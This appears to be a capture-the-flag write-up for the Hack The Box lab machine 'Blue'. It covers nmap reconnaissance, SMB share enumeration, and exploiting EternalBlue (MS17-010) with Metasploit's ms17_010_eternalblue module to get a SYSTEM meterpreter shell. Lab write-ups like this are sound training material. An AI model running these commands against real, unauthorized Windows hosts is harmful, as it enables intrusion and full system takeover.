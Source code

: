 # Box: Blue
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.110.225 -T4  -v -p-```

```
Nmap scan report for 10.129.110.225
Host is up (0.15s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
47/tcp    filtered ni-ftp
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
2468/tcp  filtered qip-msgd
6099/tcp  filtered raxa-mgmt
9834/tcp  filtered unknown
19056/tcp filtered unknown
31232/tcp filtered unknown
33400/tcp filtered unknown
37044/tcp filtered unknown
45939/tcp filtered unknown
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
49393/tcp filtered unknown
49496/tcp filtered unknown
61199/tcp filtered unknown
61779/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/16%OT=135%CT=1%CU=35042%PV=Y%DS=2%DC=T%G=Y%TM=6505D5
OS:1D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M
OS:539NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A
OS:%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.015 days (since Sat Sep 16 16:55:45 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-16T16:17:27
|_  start_date: 2023-09-16T15:55:59
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-16T17:17:24+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   148.34 ms 10.10.14.1
2   148.63 ms 10.129.110.225

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Well from the scan we hav3 3 main ports opened. Our enumeration today will be focused on the port runnint the netbios service.



# Enumeration

Lets start by checking the number of shares available on the smb server

command:```smbclient -L 10.129.110.225```

This is going to prompt you for a password, just hit the ```Enter key``` since we don't have any password

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Blue]
└─$ smbclient -L 10.129.110.225
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.110.225 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 5 smb shares available on the server

I couldn't find anything after connecting to the shares🥲.

We can check out nmap scripting engine to scan the smb port for potential vulnerabilities

command:```nmap -p 445 --script smb-vuln*.nse 10.129.110.225```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bad2e7ad-4287-4517-a8ce-7adcfcd7c9d5)

Checking out the CVE we find this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6923c708-17bc-472f-8a64-50392c648e03)

So it is a vulnerability that exists in ```SMBv1```. The vulnerability is  also known as ```EternalBlue```. Well, lets exploit😎




# Exploitation

We can use the metasploit module for this

command:```msfconsole```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/04cc7b9c-0896-4f6c-a88e-6bcfff2f73bf)

Good

command:```search eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4411b9d9-3489-466d-bbec-83b29150ce14)

Next,

command:```use exploit/windows/smb/ms17_010_eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0aa62370-9387-4a0c-a5fe-5a7aa7cff8a6)

We'll set the RHOSTS and LHOST. RHSOT is the target's IP, while LHOST is our tun0 IP

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/79ef8f25-2b66-4677-a5b3-77cf238d55ac)

Now we can use the ```exploit``` command to exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff992a9b-e7f7-45dc-abad-36a2fd9577cc)

We got a meterpreter session hehehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb99258e-33d4-449c-b637-585c72f91b16)

We won't be need privilege escalation, this is because we spawned a shell as the highest privileged user which is ```NT Authority\System```

Lets locate the flag

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80dabba0-f61c-4d55-85b5-747e07af86cf)

Well that's all
















